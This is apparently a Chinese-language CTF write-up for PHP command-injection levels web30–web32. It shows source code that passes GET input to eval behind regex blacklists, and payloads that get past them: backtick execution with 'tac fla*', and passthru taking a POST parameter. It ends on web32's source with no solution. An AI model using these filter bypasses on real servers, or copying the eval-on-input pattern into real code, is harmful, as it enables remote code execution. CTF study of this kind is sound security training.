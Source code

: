 ```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

system被ban了

再找一个php中能执行系统命令的函数

payload

```
c=echo `tac fla*`;
```

反应号包裹等于shell_exec()

### web31

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这次过滤连空格都给过滤了,利用passthru函数绕过

payload`c=passthru($_POST["a"]);`

### web32

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
